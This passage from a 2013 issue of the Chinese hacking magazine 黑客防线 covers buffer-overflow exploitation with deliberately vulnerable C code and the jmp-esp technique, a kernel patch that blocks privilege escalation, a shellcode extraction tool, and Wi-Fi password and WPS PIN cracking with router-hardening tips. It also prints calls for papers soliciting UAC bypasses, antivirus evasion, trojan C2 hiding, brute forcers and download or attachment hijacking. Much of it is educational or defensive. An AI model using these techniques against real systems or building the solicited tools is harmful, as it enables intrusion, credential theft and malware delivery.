为了配合函数调用，在 ADD 函数内部也会有相应操作，请看下面代码。

## ADD 函数的实现

```asm
Push ebp
Mov ebp,esp
Sub esp,4
Mov ebx,[ebp+0C]
Mov ecx,[ebp+8]
Add ebx,ecx
Mov eax,ebx
Add esp,4
Mov esp,ebp
Pop ebp
Ret
```

这三段汇编代码是函数调用后通用的模板。其中 `sub esp,4` 是为了给 ADD 函数中的内部变量 `c` 使用。通常来说，内部变量占用多大空间，堆栈中就要开辟多大空间。

将参数 `b` 存入寄存器 `ebx`，将参数 `a` 存入寄存器 `ecx`，完成相加操作，并将结果存入 `eax`，准备返回。

使用 `add esp,4` 的方式弹出内部变量占用的堆栈，恢复 `esp, ebp`，然后通过 `ret` 指令退出本次函数调用。

上述代码都有较为详细的说明，其中堆栈对应的变化请看图 3 示例。会发现这是一个左右对称、富有美感的图，原因很简单，因为 `call/ret` 指令本身就是互相匹配的。换句话说，在 `call` 指令执行后和 `ret` 指令执行前，堆栈情况应该完全一样。还需要强调一点：函数内部使用的变量都保存在通过函数开始指令 `sub esp, n` 保留的堆栈空间中。换句话说，C 语言中对内部变量的操作，实际上对应的是对堆栈某个地址的操作。这也很好理解：内部变量一般局限于函数内部，退出这个函数后，其保留的堆栈空间也就随之释放，非常合理。

图 3 函数调用过程中堆栈的变化

简化一些说，在进入函数前，`call` 指令会将下一条指令的地址存入堆栈，以便返回时恢复。进入函数后，将寄存器 `ebp` 压入堆栈保存，再将 `esp` 的内容送到 `ebp`，以后由 `ebp` 操作控制堆栈，`sub esp, n` 空出内部变量的空间。在函数返回时，执行 `mov esp, ebp`、`pop ebp`，将 `ebp` 的内容返回 `esp`，`ebp` 出栈，执行 `ret` 指令，程序继续执行。

如果能够在脑海中将上述过程堆栈的变化动画般重演一遍，那么恭喜你，对系统运行原理的理解又上了一个新的台阶。

## 缓冲区溢出漏洞的利用

一个成功的黑客攻击对方电脑的标志，本质上来说就是取得对方电脑的控制权。这里所谓的控制权就是能够以最高权限去执行侵入者的代码。那么好，这里涉及到几个问题：黑客如何将他的代码存入对方的主机，如何控制程序的流程去执行存入的代码，又如何解决权限的问题。

网络的盛行，就在于电脑之间的交互。这个交互说直白些就是我给你数据，你也给我数据，客户端和服务器端都为每条连接开辟了缓冲区，存储这些数据。这些数据可以是 QQ 聊天、浏览的网页，当然也可以是一些恶意的代码。那么如何控制对方去执行这些代码呢？否则岂不是劳而无功。我们看看下面一段存在缓冲区溢出漏洞的代码。

```c
void Printsome(char *bufferIn)
{
    char szBuff[8];
    strcpy(szBuff, bufferIn);
    printf("%s", szBuff);
}

int main()
{
    char sz_in[20];
    scanf("%s", sz_in);
    Printsome(sz_in);
}
```

这段函数很容易理解，主函数中等待用户输入，然后在 `Printsome` 函数中显示用户的输入，如输入 `abcde`，会在结果中显示 `abcde`。在 `Printsome` 函数内部，会将参数 `sz_in` 指向的字符串通过 `strcpy` 函数拷贝到内部变量 `szBuff` 数组中，然后进行显示，其中 `szBuff` 数组的长度是 8 个字节。图 4 中的左图说明了执行 `strcpy` 函数后堆栈的存储情况，需要注意的是，字符串的存储是从低地址向高地址延伸的。好了，似乎一切都很正常。但如果我们输入的字符超过 8 个字节，如输入“abcdefghijklmnopqrst”共 20 个字节，由于 `strcpy` 函数并没有校验拷贝源的长度，因此它会将这 20 个字节一股脑地拷入 `szBuff` 数组，导致的结果就如图 4 右半部所示，很多重要的压栈数据被覆盖，尤其特别的是返回地址被修改了！现在好像有些事情要发生了！是的，我们可以将恶意代码（通常称为 shellcode）与一个或者一组地址组合提交给对方电脑，这个地址的位置是经过精心构造的，它正好能够覆盖堆栈中“返回地址”位置中的内容，并且这个地址正好执行我们的 shellcode，从而执行之，而又恰好这个含有漏洞的接收程序运行在管理员权限下，那么很明显，我们完成了对这台电脑的控制。

图 4 溢出的图示

事情到这里，似乎曙光初现，但先不要高兴得太早。Shellcode 的地址是如何知晓的呢？换句话说，我覆盖“返回地址”的内容是什么呢？由于动态链接库的装入和卸载等原因，进程的栈的位置会变化，所以 shellcode 在内存中的位置也会动态变化。曾经的解决办法是一个字：猜。当然猜也会有一些技巧，但是效果并不好，直接导致结果就是很长的一段时间缓冲区溢出成功的比率并不高。后来一位叫 Dildog（网名）的高人在 1998 年提出了“jmp esp”大法，最终真正地将缓冲区溢出技术推广开来。

很多似乎高深的东西实际上就是一层窗户纸，我们将图 3 中 ADD 函数执行完 `ret` 指令后的堆栈结构单独拿出来，会看到此时 `esp` 指向的地址就在“返回地址”的下方。一个天才的想法就是在系统 DLL 中找到包含 `jmp esp` 的指令地址，并将这个地址覆盖堆栈中的“返回地址”，而在“返回地址”下方覆盖我们的 shellcode，那么当执行 `ret` 指令后，就会执行 `jmp esp` 指令，从而完成到 shellcode 的跳转。其流程如图 5 所示。

图 5 jmp esp 大法

我们经常会在微软补丁的说明中看到这样的字样：通过输入经过精心构造的数据结构，从而取得主机的控制权。经过以上的讲解，会看到所谓的“精心构造”并不神秘，一般来说这个数据结构会如图 6 所示。

| 填充 | 特殊地址 | Shellcode |
|---|---|---|

图 6 所谓精心构造的数据结构

其中的特殊地址就是系统 DLL 中包含 `jmp esp` 代码的地址。需要注意的一点是，因为每个操作系统的版本不同，也导致了 `jmp esp` 的地址不同，因此攻击的代码也会因为操作系统的不同而变化。

#### 小结

现在回头来看，本文缓冲区溢出的根源在于 `strcpy` 函数没有进行边界检查。如果在每个 `strcpy` 函数前都对拷入数据的长度进行检查，似乎就可以避免这样的问题，但是事情并没有这样简单。首先内核的代码如此庞大，会产生溢出的部分并不只局限于这个函数；另外应用层的程序、驱动的程序，马虎的程序员都有可能犯下低级的错误。

为了防范缓冲区溢出，在 Windows XP SP2 和 Windows 2003 SP1 系统中加入了数据执行保护（DEP）技术，只要 CPU 支持 DEP，且在系统中启用，那么程序的堆栈和默认堆都不能执行代码。但是魔高一尺，道高一丈，有一种规避 DEP 的技术，其思路是这样的：在系统启动之初，用户可以选择 DEP 是否开启，攻击者可将本文中的“返回地址”设为关闭 DEP 那段代码的起始地址，进而执行关闭 DEP 的程序，接着再进行溢出的尝试。但还是要看到，在使用 DEP 技术后，通过缓冲区溢出攻击成功的概率大大减小。

除了缓冲区溢出漏洞，比较重要的还有堆溢出漏洞、格式化串漏洞、针对异常处理机制的攻击等，其思想不外乎利用漏洞修改某个重要地址中的内容，从而控制程序的流程。希望本文介绍的思想能对读者了解这个领域有所帮助。

## 简单修改内核实现对本地提权的监控与阻断

文/图 unity

当拿下一台 Linux 服务器后，下一步就是提权了，最常见的思路就是内核本地 exploit。内核中给当前进程提权的方法很多，但内核最终还是要调用 `commit_creds` 来修改权限。

所以，如果要实现对提权的保护，我们修改一下这个函数就行了，把提权的账户 UID、当前进程名字全都记录下来，报警并阻断攻击者。当然，偷懒的话直接 hook 也是可以的，不过这样并不正规。

## 实现对提权的监控

打开 `kernel/creds.c`，找到 `commit_creds` 的定义，在头上补一句，以记录当前操作者的 UID、进程名字等等。

```c
int commit_creds(struct cred *new)
{
    // 判断是否为提权操作
    if (current_cred()->uid != new->euid
        && new->euid == 0)
        printk(KERN_INFO "Privilege escalation, comm=%s, old_uid=%d, new_uid=%d\n",
               current->comm, current_cred()->uid, new->euid);

    // 下面是原始代码
    struct task_struct *task = current;
    const struct cred *old = task->real_cred;
    if (current_cred()->uid != new->euid
    ...
```

当然，这里偷了个懒，只是记录了身份变成 root 的程序。在真实的服务器环境中，应该监控所有的权限变更，以防止其他用户切换到其他账户去做非法的事情。

现在我们来尝试本地溢出，以普通用户执行某个溢出程序，啪啪啪一通回车下去，看到提示符变成了 `#` 号，好了，我们是 root 了！如图 1 所示。

图 1

现在看一下日志，攻击确实被记录了，如图 2 所示，可以推断出 UID 为 1000 的用户执行了 expl 程序，身份就变成了 root。

图 2

## 自动阻断攻击者

接下来就是阻断攻击者了，我们可以设置白名单，除了 `su`、`sudo` 之外，都不允许提权操作。虽然这样做是可以绕过的，不过攻击者也要花点时间才能想到，所以一定程度上还是提高了门槛。

我们把上述代码稍做修改，判断一下当前进程的名字，如果不是 `sudo` 或者 `su`，就禁止提升权限。

```c
if (current_cred()->uid != new->euid
        && new->euid == 0)
{
    // 不是 su，也不是 sudo，拦截
    if (strcmp(current->comm, "su") != 0
            && strcmp(current->comm, "sudo") != 0)
    {
        printk(KERN_INFO "Blocked privilege escalation, "
                "comm=%s, old_uid=%d, new_uid=%d\n",
                current->comm, current_cred()->uid, new->euid);
        return 1;
    }
    // 允许操作
    printk(KERN_INFO "Authorized privilege escalation, comm=%s"
            ", old_uid=%d, new_uid=%d\n",
            current->comm, current_cred()->uid, new->euid);
}
```

这样就实现了对提权的拦截。我们用刚才的 exp 测试一下，如图 3 所示，没有成功，EUID 还是 1000。攻击者一定很郁闷，明明有漏洞，咋就是利用不了呢？

图 3

现在我们创建一个名为 `su` 的链接，然后再次执行，提权成功，如图 4 所示。

图 4

好了，这样我们就对 Linux 内核提权实现了监控和阻断，很轻松是不是？

## Linux 下懒人的 Shellcode 生成方法

文/图 unity

最近因为项目需要，不得不编写一些定制的 Shellcode。搜索了一下，网上的做法往往是先用 nasm 编译成 object 文件，再复制粘贴 objdump 的输出，看起来好麻烦。

那怎么办呢？观察了一下 nasm 的做法，它只是简单地把代码写入 `.text` 段，然后设置下入口点就完事了。如图 1 所示，所以我们只要手动把 `.text` 段的内容打印出来就行了。

图 1

## 代码编写

现在思路清晰了，解析 ELF 文件，读取节表，找到 `.text` 的偏移量，读取其内容即可。这里我只是简单地提一下 ELF 格式，有兴趣的朋友可以看一下 `elf.h` 里面的定义。下面我们直接看核心代码。

```cpp
string dump32(const char *bytes, const char *sectname = ".text")
{
    Elf32_Ehdr *ehdr = (Elf32_Ehdr *) bytes;
    // 定位字符串表，否则我们无法知道节的名字
    Elf32_Shdr *shdr, *strShdr = (Elf32_Shdr*)(bytes + ehdr->e_shoff + ehdr->e_shstrndx * sizeof(Elf32_Shdr));
    int startOfDump = -1, dumpSize = -1;
    const char *strIdx = bytes + strShdr->sh_offset;
    for (int i = 0; i < ehdr->e_shnum; ++i)
    {
        shdr = (Elf32_Shdr*) (bytes + ehdr->e_shoff + i * sizeof(Elf32_Shdr));
        // 判断当前节是否为 .text
        if (strcmp(&strIdx[shdr->sh_name], sectname) == 0)
        {
            // 记录起始点，节的长度
            startOfDump = shdr->sh_offset;
            dumpSize    = shdr->sh_size;
        }
    }
}
```

```cpp
// 将内容存到 string 里面返回
return string(bytes + startOfDump, bytes + startOfDump + dumpSize);
```

这样一来，通过 `dump32` 这个函数，我们就获取了 `.text` 节的内容。

## 实战

下面我们用一个简单的 `sys_write` 调用来做演示（保存为 `write.asm`），其代码如下。

```asm
global _start
section .text
_start:
    call _write
    db 'Hello, world!',0x0A
_write:
    pop esi
    xor eax, eax
    xor ebx, ebx
    xor edx, edx

    mov al, 4            ; sys_write
    inc ebx
    mov ecx, esi
    mov dl, 14
    int 80h

    xor eax, eax         ; sys_exit (0)
    xor ebx, ebx
    inc eax
    int 80h


```

输入 `nasm -felf32 write.asm -o write.o; ld write.o -o write` 进行编译，然后用我们的 shellcode 生成器去处理它！为了方便，本 shellcode 程序会直接生成 C 源代码，如图 2 所示。

图 2

现在我们输入 `gcc xx.c -z execstack -o x` 编译生成的 C 源代码，然后执行 `./xx`。好了！程序打印了“Hello World!”，这意味着我们成功执行了 ShellCode，很轻松吧？

（完）

### 升级配置无线路由保安全

文/图 黄健

夏日炎炎，家中无线路由让人揪心的除了飙升的温度外（后文小贴士 A 中有如何降温求稳的小妙招），还有无处不在的破解分子。看看下面的模拟场景：夜深了，一个黑影躲在门外，笔记本电脑荧幕微弱的光映照在他的脸上，只见他移动游标，运行软件，在些许等待后，他露出了微微的冷笑，一个家用无线路由器已然被攻破，密码实时到手，之后他就可以“潜伏”下来，又一个“棱镜计划”开始上演。上述剧情虽然是虚构的，不过笔者在现场实战演示中，却真切体会到了这种感觉。

目前无线路由破解，使用最广的方法可以归结为抓包跑字典与破解 PIN 码，我们用下面这张表来说明。

| 破解分类 | 抓握手包 | 跑字典 | WPS 支持 | 客户端 | 不足 |
|---|---|---|---|---|---|
| 抓包跑字典 | 需要 | 需要 | 不需要 | 需要 | 强密码需时长 |
| PIN 码破解 | 不需要 | 不需要 | 需要 | 不需要 | 新款路由改进安全，PIN 码渐式微 |

抓包跑字典就是通过抓握手包破解无线连接密码，需要有客户端登录才可抓包成功；而 PIN 码破解则是暴力破解 8 位数的数字 PIN 码（提到 PIN 码，这里有必要提到 WPS（Wi-Fi Protected Setup，WiFi 保护设置），WPS 实现方法有两种选择，输入 PIN 码法和按钮配置法，因此就有了 PIN 码一说，一般支持 WPS 功能的路由，在背面标签上都会标注 8 位 PIN 码数字）。

下面我们分别就以上两种方法加以实战演示，使用软件为 miniwep-gtk-40420。

## 破解实战

- 1）抓包跑字典

首先扫描测试无线路由，以获得握手包，如图 1 和图 2 所示。

图 1

图 2

根据字典获得路由 WPA2 登录连接密码（部分信息做隐去处理），如图 3 所示。

图 3

- 2）破解 PIN 码

使用 miniwep-gtk 中的 reaver 破解获得 PIN 码后（图 4 中部分信息做了隐去处理，红框部分为破解成功的 PIN 码），之后即可使用类似 QSS 快速安全设置软件等方式进行上网连接浏览。

图 4

由上可见，无线上网的风险无处不在。在秘密战线上有句话，看不见的才是最可怕的，用在这里非常的适合。另外还想提醒一句，不了解不意味着它不会发生，了解是为了更好地防范，提高安全意识。下面让我们来看看如何通过升级配置无线路由以保障日常使用安全。

## 提高安全措施

- 1）升级路由固件至最新版

作为关心无线安全的用户，应该经常浏览无线设备网站最新的固件升级公告，并及时为设备安装安全更新或升级程序（本例以 D-Link 无线路由为例加以说明，下同）。如果官方固件太久未更新，也可以考虑优秀的第三方固件，比如 Gargoyle（中文名：石像鬼，后文小贴士 B 中有如何刷新该固件的实战演示）。在使用中，我们注意到 Gargoyle 非常关注安全，如很早在固件中就不提供 WPS 功能，因为开发者已意识到它不够安全。

- 2）修改无线路由器的默认登录 IP 地址或端口

修改无线路由器的默认登录 IP 地址或端口（本例中 D-Link 只提供修改 IP 地址的功能，有的路由还可以修改端口地址，隐蔽性更强），好处在于即便不幸被对方破解了无线路由器连接密码，但他却进不了我方的路由登录界面，同样也轻易获取不了路由器管理员用户名和密码（这里也特别提醒一句，路由器默认管理员用户名和密码在可能的情况下，请予以第一时间修改）。如图 5 所示。

图5

- 3）为无线路由设置连接强密码

无线安全部分，建议选择 WPA2-AES 并设置强密码（至少 8 位以上）。强密码生成推荐使用 SafePasswd，它是一款能根据选项参数产生随机密码的在线工具，提供了强大的密码强度控制功能，可选字母、数字、字母和数字、所有字符、十六进制等多种密码生成模式，更支持个人自定义密码长度模式，提供最大的保护。如图6所示。

图6

- 4）禁用 UPnP

UPnP 是通用即插即用的简称，它是为网络设备、软件和外围设备之间提供兼容性的一种网络架构。大多数无线网络设备在日常工作中都不需要 UPnP 支持，而 UPnP 支持会导致无线网络设备大量基本资料的泄露，甚至面临强制中断网络、重启等危险，所以应关闭。

- 5）关闭 WAN Ping 功能

Ping WAN 端 IP 地址是黑客们利用来检测 WAN IP 地址是否有效的常用手段。关闭 WAN Ping 回应，可提供更高的安全性。

- 6）禁用 SNMP

SNMP（Simple Network Management Protocol，简单网络管理协议）是目前网络中应用最为广泛的网络管理协议，它提供了一个管理框架来监控和维护互联网设备。如果没有无线网管软件或无线 AC 等平台，应考虑将 SNMP 关闭，加强安全性。如图7所示。

图7

- 7）取消远程管理

若无必要，应取消远程管理的端口及 IP 地址设置。利用无线路由远程管理漏洞导致安全问题，早有先例。

- 8）修改 DHCP 设置

修改 DHCP 租赁时间为半小时或数小时，以便及时释放 IP，重新提供地址池（需要说明的是，如果这里选择关闭 DHCP 功能可以达到更好的控制效果，不过要手动指定客户端 IP 地址，对用户的使用便利性会有一定影响，综合考虑后选择修改 DHCP 租赁时间这个折中方案。类似的情况还包括隐藏无线路由 SSID，同样可以达到加强安全的目的，不过会影响使用便利，具体设定可酌情而定）。设置界面如图8所示。

图8

- 9）启用 MAC 地址过滤

指定无线网卡才可上网，进一步提升安全（如临时接入设备多的情况则不太适用）。设置界面如图9所示。

图9

- 10）关闭 WPS

之前已经提到 WPS，这里再做个简单的介绍。WPS 是由 Wi-Fi 联盟所推出的 Wi-Fi 安全防护设定（Wi-Fi Protected Setup，WPS）标准，该标准推出的主要原因，是为了解决长久以来无线网络加密认证设定的步骤过于繁杂的弊病，使用者往往会因为步骤太过麻烦，以至于疏于做任何加密安全设定，因而引发许多安全上的问题。说得简单点，就是类似于蓝牙和计算机连接，不用输入密码，只用输入配对码就能连上的功能。很多路由器出厂默认情况下都是开启了 WPS 的，也就增大了被入侵的风险。在使用过程中，最好是关闭 WPS 来保证无线安全。设置界面如图10所示。

图10

- 11）降低无线信号发射功率防破解

对于无线信号十分良好的用户（比如在一间房内），可以适当降低无线信号发射功率，既降低对身体影响，同时也防止无线破解。设置界面如图11所示。

图11

- 12）时常关注最新漏洞及厂商补丁的发布

比如绿盟科技的安全漏洞栏目（http://www.nsfocus.net/index.php?act=sec_bug）即可做一定的参考。

以上都是描述无线路由端的安全防范，此外在操作系统端也可通过 HTTPS 加密访问和 VPN 服务等方式做进一步的安全保护。

上述这些只是技术手段方面的防范，关键还是要树立起足够的安全保密意识，要认识到安全来自长期警惕，风险源于一时麻痹；要学会怀疑周围无线网络的真实性、安全性和稳定性（尤其在公共场合），良好的怀疑习惯将有效地避免遭遇不明监听后可能造成的一切损失，同时加强无线安全方面的知识更新，只有这样才是本文提倡的治本之道！

## 小贴士

- A. 无线路由夏日如何降温求稳

为更好地提升海联达 Ai-R1 AC 无线路由器散热效能，官方附赠了专用“基地”——Air-Base 底座，受此启发，我尝试为自己的 D-LINK 无线路由配置了酷冷至尊的笔记本散热器，取电直接来自无线路由的空闲 USB 口。如图12所示。

图12

- 优点：提供更好的散热；美观；无须改动硬件，不破坏保修。
- 缺点：少许的硬件费用。

- B. 如何刷新第三方安全固件

由于 Gargoyle 官方不提供对手头 D-Link 路由的支持，所以这里以 TP-LINK TL-WR741N 为例演示 Gargoyle 固件刷写。

- a. TP-LINK 原厂刷 Gargoyle 相对简单，在官方固件 Web 界面可以直刷 Gargoyle 固件。
- b. 石像鬼固件恢复为 TP-LINK 原厂固件，该步骤相对复杂，以下重点介绍。

事先使用 HFS 架设 HTTP 服务器，如图13所示。

图13

使用 Putty 以 SSH 方式登录 192.168.1.1，显示用户名密码后，用户名输入 root，石像鬼初始密码为 password，如图14所示。

图14

登录成功后，切换到路由器的 `tmp` 文件夹下，执行“`wget http://192.168.1.216/wr741nv1.bin`”（存放固件主机的 IP 地址和固件文件名，请修改成自己的），提示下载成功后，执行“`mtd -r write wr741nv1.bin firmware`”写入固件，如图15所示，之后即可正常登录原厂固件。

图15

（完）

### 2013 年第 9 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 9 期的部分选题如下，完整的选题内容请见每月发送的约稿邮件。

### 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1）Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2）Windows UAC 低权限下，进入系统后提高账户权限的方法。

### 2. 多用户 3389 远程桌面登录

要求：

- 1）Windows XP 和 Win7，默认只允许一个用户操作桌面。当远程桌面登录进去，就会将当前桌面切换为锁定状态。请实现多用户登录远程桌面，同时操作，互不影响。
- 2）至少支持两个用户同时登录；
- 3）支持 Windows XP、Win7 32 位和 64 位；
- 4）支持中英文；
- 5）使用 VC++2008 编译工具，编写成控制台程序，完美支持，无任何出错提示。

### 3. Avast 杀毒软件研究

Avast 杀毒软件会对第一次运行的陌生文件做出提示，研究如何绕过陌生文件提示的方法。

### 3. WEB 服务器批量扫描破解

- 1）针对目标 IP 参数要求
  - 10.10.0.0/16
  - 10.10.3.0/24
  - 10.10.1.0-10.255.255.255

- 2）针对目标 Web 服务器扫描要求  
  可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：
  - Tomcat
  - Weblogic
  - Jboss
  - Apache
  - JonAS
  - WebSphere
  - Lotus Server
  - IIS(Webdav)
  - Axis2
  - Coldfusion
  - Monkey HTTPD
  - Nginx

- 3）针对目标 Web 服务器后台扫描
  - 针对目标进行后台地址搜索。

- 4）针对目标 Web 后台密码破解
  - 搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

### 4. 木马控制端 IP 地址隐藏

- 要求：
- 1）在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 2）使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

### 5. 暴力破解密码

- 要求：
- 1）针对 3389 远程桌面、VNC、R-admin、PCAnywhere 暴力破解密码；
- 2）读取指定的用户名和密码字典文件；
- 3）采用多线程；
- 4）所有函数都必须判断错误值；
- 5）使用 VC++2008 编译工具实现，控制台程序；
- 6）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 7）支持 Windows XP/2003/7/2008。

### 6. Web 后台弱口令暴力破解

说明：  
针对国际常用建站系统以及自编写的 Web 后台无验证码登录形式的后台弱口令账号密码暴力破解。

- 要求：
- 1）能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 2）根据抓取提交账密的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 3）可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 4）高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键词，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账密可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账密，如用户为 admin，密码可自动填充为域名，用户为 abcd@abcd.com，账户密码就可以设置为 abcd abcd 以及 abcd abcd123 或 abcd abcd123456 等简单账密；
- 5）拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账密字典可自定义设置等。

### 7. 编写端口扫描器

要求：

- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2）扫描方式采用多线程，并能设置线程数；
- 3）将功能编写成 DLL，导出功能函数；
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5）尽量多做出错异常处理，以防程序意外崩溃；
- 6）使用 VC++2008 编译工具编写；
- 7）支持系统 Windows XP/2003/2008/7。

### 8. CMD 下向指定 GHO 文件内写入文件

要求：

- 1）在 CMD 下，无 GUI 界面，向指定的 GHO 文件内写入数据；
- 2）GHO 文件为 XP、Win7 32/64 位的备份；
- 3）使用环境 XP、Win7 32/64；
- 4）修改好后，将 GHO 文件的修改时间还原为原来一样的；
- 5）开发环境 VC。

### 9. Android WIFI Tether 数据转储劫持

说明：  
WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1）开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3）针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

### 10. 邮箱附件劫持

说明：  
编写一个程序，当用户在浏览器上登录邮箱（本地权限），发送邮件时，自动将附件里的文件替换为另外一个文件。

要求：

- 1）支持 Gmail、Hotmail、Yahoo 新版旧版、163、126。
- 2）支持 IE 浏览器 6/7/8/9/10，或支持火狐浏览器，或谷歌浏览器。

### 11. 突破 Windows 7 UAC

说明：  
编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1）Windows UAC 安全设置为最高级别；
- 2）系统补丁打到最新；
- 3）支持 32 位和 64 位系统。

### 2013 征稿启事

《黑客防线》作为一本技术月刊，已经 13 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求

- 1）技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 2）在稿件末尾请注明您的账户名、银行账号以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3）投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另找他处。限于人力，未采用的恕不退稿，请自留底稿。
- 4）稿费发放周期：稿费当月发放，稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 6）稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7）投稿信箱及编辑联系：投稿信箱：hadefence@gmail.com；编辑 QQ：675122680。

**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

| 稿件等级 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

# 《黑客防线》9期文章目录

总第153期 2013年

### 漏洞攻防

- 渗透校园转账终端机（独猫）……2
- OSVDB-94390 注册表溢出漏洞分析（木羊）……6
- 记一次 ECShop 模板“扒”（非安全）……9
- 前卫音乐盒漏洞分析（ywledoc）……17

### 编程解析

- 探秘父进程（李旭升）……26
- 修改 NTLDR 添加 Boot 级开机密码（Naylon）……29
- 驱动隐藏服务从原理到实现（仲夏）……40
- 从 WinRAR 右键菜单到借助 Shell 扩展自启动（李旭升）……47
- Windows 中系统 PTE 区域的管理（王晓松）……52

### 网络安全顾问

- 卸载有密码保护的杀毒软件（unity）……57
- AES 硬加密移动存储安全吗？（imodding）……59

### Android 远程监控技术

- Android 下 APK 捆绑器的实现（海东青）……63
- APK 免杀大挑战（无敌仔仔）……70

- 2013年第10期杂志特约选题征稿……73
- 2013年征稿启事……77

### 渗透校园转账终端机

文/图 独猫

看着学校的转账终端机很是眼热，一直想渗透进去看看，或者至少跳出沙盒，不过这个终端的安全性还算比较好的，所有不该有的东西都没有。

